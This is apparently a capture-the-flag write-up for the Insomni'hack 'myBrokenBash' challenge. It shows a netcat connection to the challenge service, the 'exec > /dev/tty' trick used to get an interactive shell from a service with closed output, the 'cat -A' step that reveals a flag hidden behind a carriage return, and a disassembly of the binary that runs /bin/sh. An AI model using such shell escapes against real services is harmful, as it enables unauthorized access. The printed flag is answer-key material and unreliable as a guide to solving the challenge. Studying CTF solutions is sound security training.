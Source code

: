 # myBrokenBash

## About
In this challenge we were provided with a simple echo service.
You could connect to it:

```bash
nc mybrokenbash.insomni.hack 1337
```
And afterwards send some text which got repeated.

## Step 1: Prison break
I was able to break out of the jail by providing the following input:

```bash
exec > /dev/tty
```
Now we spawned a regular bash shell.

## Step 2: Deeply hidden
When listing the files I found one called flag:

```bash
ls
bin   dev  flag  lib	media  opt   root  sbin  sys  usr
boot  etc  home  lib64	mnt    proc  run   srv	 tmp  var
```

But it didn't reveal everything yet:
```bash
cat flag
almost there ;-)_1t_s_n0t_so_ea4y}
```

Now I only needed to print the 'full' file not only the characters after the carriage return:

```bash
cat -A flag
INS{c@t_th3_Flag_1t_s_n0t_so_ea4y}^Malmost there ;-)$
```

Flag: INS{c@t_th3_Flag_1t_s_n0t_so_ea4y}


## Bonus

Here's the binary I extracted :

```bash
[0x000008c0]> pdf @ main
/ (fcn) main 116
|   main (int argc, char **argv, char **envp);
|           ; var int canary @ rbp-0x8
|           ; DATA XREF from entry0 (0x8dd)
|           0x00000ab4      55             push rbp
|           0x00000ab5      4889e5         mov rbp, rsp
|           0x00000ab8      4883ec10       sub rsp, 0x10
|           0x00000abc      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=0x1138 ; '('
|           0x00000ac5      488945f8       mov qword [canary], rax
|           0x00000ac9      31c0           xor eax, eax
|           0x00000acb      b800000000     mov eax, 0
|           0x00000ad0      e84bffffff     call sub.dev_urandom_a20
|           0x00000ad5      488d3dec0000.  lea rdi, str.Welcome_to__INS19 ; 0xbc8 ; "*** Welcome to #INS19!! ***\n" ; const char *s
|           0x00000adc      e86ffdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00000ae1      488d3dfd0000.  lea rdi, str.cat_the_flag_here_please ; 0xbe5 ; "cat the flag here please ;-)" ; const char *s
|           0x00000ae8      e863fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00000aed      bf01000000     mov edi, 1                  ; int fildes
|           0x00000af2      e879fdffff     call sym.imp.close          ; int close(int fildes)
|           0x00000af7      bf02000000     mov edi, 2                  ; int fildes
|           0x00000afc      e86ffdffff     call sym.imp.close          ; int close(int fildes)
|           0x00000b01      488d3dfa0000.  lea rdi, str.bin_sh         ; 0xc02 ; "/bin/sh" ; const char *string
|           0x00000b08      e853fdffff     call sym.imp.system         ; int system(const char *string)
|           0x00000b0d      b800000000     mov eax, 0
|           0x00000b12      488b55f8       mov rdx, qword [canary]
|           0x00000b16      644833142528.  xor rdx, qword fs:[0x28]
|       ,=< 0x00000b1f      7405           je 0xb26
|       |   0x00000b21      e832fdffff     call sym.imp.__stack_chk_fail ; void __stack_chk_fail(void)
|       |   ; CODE XREF from main (0xb1f)
|       `-> 0x00000b26      c9             leave
\           0x00000b27      c3             ret
```
